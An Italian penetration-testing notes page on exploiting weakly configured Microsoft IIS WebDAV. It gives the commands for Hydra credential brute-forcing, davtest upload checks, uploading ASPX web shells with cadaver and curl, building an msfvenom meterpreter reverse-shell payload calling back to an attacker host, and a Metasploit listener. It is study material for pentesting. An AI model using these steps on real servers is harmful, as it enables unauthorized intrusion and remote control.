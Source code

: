 <a href="https://github.com/Gigidotexe/Penetration_Test_notes/blob/main/README.md"> Back </a>
# Microsoft IIS WebDAV – Introduzione e Exploit
**WebDAV (Web Distributed Authoring and Versioning)** è un protocollo composto da un set di estensioni HTTP che consentono agli utenti di modificare e gestire in modo collaborativo i file su **Microsoft IIS**. <br>
Microsoft IIS è un server web proprietario sviluppato da Microsoft, in grado di ospitare applicazioni web e siti web, in modo simile ad altri server come Apache o Nginx <br>
WebDAV espone in genere la stessa porta del sito (80/443) e supporta metodi aggiuntivi come `PROPFIND`, `MKCOL`, `PUT`. <br>

Una configurazione debole (per‑mancanza di ACL o controllo sul metodo **PUT**) consente a un attaccante di **caricare ed eseguire file arbitrari**, ottenendo RCE.

---

## Brute‑force credenziali (opzionale)

Una volta confermata la presenza del servizio e un mancato controllo del metodo PUT durante laprecedente fase di Scansione ed Enumerazione, possiamo tentare di scoprire le credenziali di accesso usando Hydra: <br>
```bash
hydra -L /usr/share/wordlists/common_users.txt -P /usr/share/wordlists/common_passwords.txt -s 80 -f -u <IP> http-get /webdav
```

* `-L` / `-P` puntano ai file utenti / password. <br>
* `-s 80` specifica la porta. <br>
* `-f` interrompe alla prima coppia valida. <br>
* `-u` mantiene la stessa connessione. <br>

Se il server usa HTTPS, sostituisci `http-get` con `https-get` e porta 443: <br>
Se invece vuoi effettuare un login standard basta mettere `/` al posto di `/webdav` per autenticarti
> ovviamente puoi mettere qualsiasi altra directory che richiede autenticazione dopo `/`

---

## Verifica upload con credenziali

dopo aver scoperto le credenziali di accesso, analizziamoi il comportamento usando davtest:
```bash
davtest -auth <user>:<pass> -url http://<IP>/webdav`
```

Se `PUT` va a buon fine, verrà indicato “SUCCESS” per l’estensione caricata.

---

## 4 – Upload di una Web‑Shell con **cadaver**
Se il metodo PUT funziona, possiamo caricare una webshell usando `cadaver`
```bash
cadaver http://<IP>/webdav` # client WebDAV interattivo.
put C:\\webshell\\cmd.aspx` # carica la web‑shell ASPX.
```

Tutte le web shells disponibili su kali sono visualizzabili al path 
```bash
/usr/share/webshells
```

Dopo aver caricato una webshell, ricaricando la pagina del browser dov’era aperta la pagina di WebDAV, possiamo visualizzare la shell caricata quindi, cliccando su di essa per eseguirla, potremmo avere una schermata con la possibilità di inserire dei comandi

---

## 5 – Upload via curl e put
possiamo anche caricare la shell usando curl:
```bash
curl -T shell.aspx http://<user>:<pass>@<IP>/webdav/shell.aspx` # carica shell ASPX
```

e tramite il metodo put:
```bash
put </usr/share/webshells/webshell.aspx>
```

---

## 6 – Generazione Payload con **msfvenom**
é possibile generare una shell usando msfvenom: 

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<KaliIP> LPORT=<Port> -f aspx > shell.aspx
```

Carica `shell.aspx` via `cadaver` o `curl`; una volta richiamato, avrai la sessione Meterpreter.

---

## 7 – Listener Metasploit
Per poter ricevere una connessione reverse shell, si usa il `multi/handler` di Metasploit
```bash
use multi/handler # modulo listener generico
set payload windows/meterpreter/reverse_tcp # definisce il payload
set LHOST <KaliIP> # IP della macchina Kali
set LPORT <Port> # porta configurata nel payload
run # avvia il listener in attesa della connessione
```

e successivamente eseguiamo la shell caricata sul target con `cadaver` o `curl`

Queso processo é totalmente automatizzabile usando il modulo
```bash
exploit/windows/iis/iis_webdav_upload_asp
```

---
